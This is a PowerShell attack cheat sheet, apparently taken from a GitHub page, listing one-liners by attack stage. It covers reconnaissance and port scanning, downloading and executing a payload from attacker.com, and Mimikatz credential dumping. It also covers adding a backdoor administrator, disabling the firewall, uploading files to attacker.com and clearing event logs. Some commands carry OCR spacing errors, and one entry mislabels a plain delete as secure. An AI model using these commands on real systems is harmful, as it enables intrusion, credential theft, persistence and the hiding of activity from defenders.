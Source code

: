 # Windows Powershell

### System Reconnaissance

    Get-WmiObject -Class Win32_OperatingSystem (Enumerate System Information)

    Get-Service | Where-Object {$_.Status -eq "Running"} (Check for running services)

    Get-NetIPConfiguration (Get current network configuration)

### User and Group Enumeration

    Get-LocalUser (List local users)

    quser (List user sessions)

    Get-LocalGroup (List local groups)

    Get-LocalGroupMember -Group "Administrators" (List group members)

### Network Scanning

    Test-Connection IP -Count 1 -Quiet (Discover live systems)

    1..1024 | % {echo ((new-objectNet.Sockets.TcpClient).Connect("192.168.1.1", $_)) "Port$_ is open"} (Scan for open ports)

### Exploitation

    IEX (New-ObjectNet.WebClient).DownloadString('http://attacker.com/payload.ps1') (Download and execute a payload)

### File and Directory Manipulation

    Get-ChildItem -Recurse | Select-String -Pattern"password" (Search for files with sensitive data)

    (Get-Item "secret.txt").Delete() (Securely delete a file)

### Credential Harvesting

    Import-Module Mimikatz.ps1

    Invoke-Mimikatz -DumpCreds (Dump credentials from memory)

### Privilege Escalation

    ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]"Administrator") (Check for admin privileges)

### Lateral Movement

    Invoke-Command -ComputerName TARGET_IP ScriptBlock {COMMAND} -credential (Get-Credential)

### Post Exploitation

    net user /add USERNAME PASSWORD (Add a backdoor user)

    Net Localgroup Administrators USERNAME /add (Add your backdoor user to local administrators group)

### Defensive Evasion

    Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False (Disable Firewall)

### Data Exfiltration

    (New-Object System.Net.WebClient).UploadFile("http://attacker.com/upload", "C:\path\to\data.txt") (Send data to attacking machine)

### Log Management

    wevtutil cl System (Clear event logs)

